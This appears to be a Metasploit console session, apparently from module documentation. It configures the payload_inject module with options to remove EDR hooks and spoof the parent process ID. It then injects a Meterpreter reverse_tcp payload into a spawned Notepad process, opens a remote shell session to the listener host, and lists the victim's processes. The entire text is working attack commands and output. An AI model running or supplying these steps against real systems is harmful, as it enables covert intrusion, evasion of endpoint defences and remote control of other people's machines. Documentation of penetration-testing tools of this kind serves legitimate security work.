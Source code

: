 ```
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION      1                yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/local/payload_inject) > run

[*] Started reverse TCP handler on 192.168.135.168:4444
[*] Running module against DESKTOP-D1E425Q
[*] Spawned Notepad process 684
[*] Injecting payload into 684
[*] Preparing 'windows/x64/meterpreter/reverse_tcp' for PID 684
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49676) at 2020-01-22 13:12:07 -0600

meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                     Path
 ---   ----  ----                         ----  -------  ----                     ----
 0     0     [System Process]
 4     0     System
 88    4     Registry
.
.
.
 684   7524  notepad.exe                  x64   1        DESKTOP-D1E425Q\msfuser  C:\Windows\System32\notepad.exe
.
.
.
 7524  3632  revtcpx64.exe                x64   1        DESKTOP-D1E425Q\msfuser  C:\Users\msfuser\Desktop\revtcpx64.exe
 7532  4772  chrome.exe                   x64   1        DESKTOP-D1E425Q\msfuser  C:\Program Files (x86)\Google\Chrome\Application\chrome.exe
 7876  780   WmiPrvSE.exe
 7904  780   WmiPrvSE.exe
 8000  584   svchost.exe
 8036  584   svchost.exe

```